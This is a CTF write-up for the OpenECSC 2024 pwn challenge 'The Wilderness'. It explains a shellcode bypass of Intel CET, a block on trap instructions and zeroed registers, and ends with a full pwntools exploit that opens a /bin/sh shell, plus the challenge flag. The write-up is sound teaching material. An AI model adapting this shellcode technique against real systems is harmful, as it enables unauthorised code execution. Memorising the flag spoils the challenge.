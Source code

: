 ```yaml
---
title: 'OpenECSC 2024 - Round 2'
challenge: 'The Wilderness'
date: 2024-04-29T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the OpenECSC 2024 - Round 2 CTF challenge "The Wilderness"' 
cover: '/img/openECSC/logo.png'
tags: ['pwn', 'shellcode', 'intel cet']
draft: false
---
```


**tl;dr**

The challenge requires input of our shellcode's bytecode. There are several constraints that increase the difficulty:

- The environment relies on [Intel CET: Control Flow Enforcement Technology](https://www.intel.com/content/www/us/en/developer/articles/technical/technical-look-control-flow-enforcement-technology.html).
- Forbidden opcodes include traps such as syscall, sysexit, and int80.
- **All** registers are cleared.
- Our shellcode cannot contain `\x00` bytes.
- The shellcode is executed in a memory area that is only readable and executable, thus polymorphic shellcode cannot be used.

## First step

Upon uncompressed, the archive provided by the challenge contains the following files:

```bash
$ tree --filelimit 5
.
├── Dockerfile
├── build
│   └── the_wilderness
├── docker-compose.yml
├── run.sh
└── sde-external-9.33.0-2024-01-07-lin
```

We can observe from ./run.sh that the binary is executed using the [Intel Software Development Emulator (Intel SDE)](https://www.intel.com/content/www/us/en/developer/articles/tool/software-development-emulator.html).

```
#!/bin/sh

echo "[+] starting challenge..."
/home/user/sde/sde64 -no-follow-child -cet -cet_output_file /dev/null -- /home/user/build/the_wilderness
echo "[+] challenge stopped"
```

It's worth noting that the flag `-cet` is in use, which indicates the implementation of control flow enforcement technology.

## Environment setup

I made two changes to the files to set up the debug environment:
- Added the flag `-debug` in the *run.sh* file
- Modified the *Dockerfile* to install gdb and [gef extension](https://github.com/hugsy/gef).

## Code review

Shifting our focus to the `get_code` function within the binary, we can observe the following:

- The memory is always mapped at the address `0xdead000`
- Initially, the memory is set as readable and writable with `PROT_READ | PROT_WRITE` (3).

{{< figure src="/img/openECSC/the_wilderness/mmap.png" position="left" caption="0xdead000 mmap" captionPosition="left">}}

- Before execution, the permissions of the mapped area `0xdead000` are changed to `PROT_EXEC | PROT_READ` (5) using *[mprotect](https://man7.org/linux/man-pages/man2/mprotect.2.html)*.

{{< figure src="/img/openECSC/the_wilderness/mprotect.png" position="left" caption="0xdead000 mprotect" captionPosition="left">}}

- Our input cannot contain the bytecode `\x00`.

{{< figure src="/img/openECSC/the_wilderness/holes.png" position="left" caption="holes check" captionPosition="left">}}

- The input must not include trap instructions such as *syscall*, *sysenter*, or *int80*.

{{< figure src="/img/openECSC/the_wilderness/traps_check.png" position="left" caption="traps check" captionPosition="left">}}

{{< figure src="/img/openECSC/the_wilderness/traps_blacklist.png" position="left" caption="traps blacklist" captionPosition="left">}}

In the `run_code` function, all registers are cleared, including the SIMD registers. Furthermore, before executing the shellcode, even the fs and gs base are zeroed, eliminating any possibility of leaking addresses.
## Divide et impera

### Problem 1: Intel Control Flow Enforcement Technology

Intel Control Flow Enforcement Technology (CET) is a mitigation measure aimed at thwarting techniques like Return-Oriented Programming (ROP) and Jump-Oriented Programming (JOP). Essentially, after a return or a jump, the next expected instruction is an `endbr64`. If this expectation is not met, the subsequent instruction will trigger a segmentation fault.

#### Solution

In this scenario, we have complete control over the instruction that will be executed. Essentially, we need to place `endbr64` at the beginning of our shellcode.

### Problem 2: Traps are forbidden

Traps instructions are prohibited, and the code that checks for this behavior appears to be robust. We are not allowed to use the *syscall*, *sysenter*, or *int80* instructions.

#### Solution

We can exploit the fact that a reference to `syscall` is present in the binary. When `arch_prctl` is called, it will invoke `syscall` from the libc. If we can obtain a leak of the address of the binary, we can then jump to the syscall entry in the PLT (Procedure Linkage Table).

### Problem 3: No leak?

The unsettling aspect of this challenge is that everything is zeroed out. All general-purpose registers and even special ([SIMD](https://en.wikipedia.org/wiki/Single_instruction,_multiple_data)) ones are cleared. Even the base of `fs` and `gs` is set to zero.

#### Solution

To overcome this problem, we need to find an instruction that will cause a leak in the registers. After some searching, I decided to skim through all the instructions of the [x86/x64 architecture](https://www.felixcloutier.com/x86/) architecture. Finally, I came across [RDSSPD/RDSSPQ](https://www.felixcloutier.com/x86/rdsspd:rdsspq). This instruction, when Intel CET shadow stack is enabled, will indeed cause a leak in the specified register.
## Exploit

Here is the full script:

```python
from pwn import *

context.arch = "amd64"

DEBUG = False

if DEBUG:
        import clipboard
        r = remote("127.0.0.1", 1337)
        r.recvuntil("remote ")
        port = r.recvline(keepends=False).decode()
        clipboard.copy(f"target remote :{port}")
else:
        r = remote("thewilderness.challs.open.ecsc2024.it", 38012)

shellcode = []

# bypass CET
shellcode += ["endbr64"]

# Get a PIE leak

shellcode += ["rdsspq rsp"] # rsp now contains a shadow stack pointer leak
shellcode += ["mov rbx, [rsp]"] # rbx now contains a PIE leak

# prepare arguments to syscall from libc

shellcode += ["xor rdi, rdi"]
shellcode += ["xor rdi, 59"] # execve syscall
shellcode += ["xor rsi, rsi"]
shellcode += ["xor rsi, 0xdead02a"] # address of /bin/sh

# Call plt[syscall]

shellcode += ["sub bx, 0x1563"] # subtract main+63 offset
shellcode += ["add bx, 0x126f"] # offset of plt[syscall]
shellcode += ["call rbx"] # call plt[syscall]

shellcode += ['.ascii "/bin/sh"']

shellcode = asm("\n".join(shellcode))

r.sendlineafter(b"Wilderness?", str(len(shellcode)).encode())
r.sendlineafter(b"Wilderness?", shellcode)

log.info("Got shell ?!")

r.interactive()
```

> openECSC{h3r3_1n_th3_wild3rness_w3_l1ke_h1d1ng_1n_the_sh4dow_64d70520}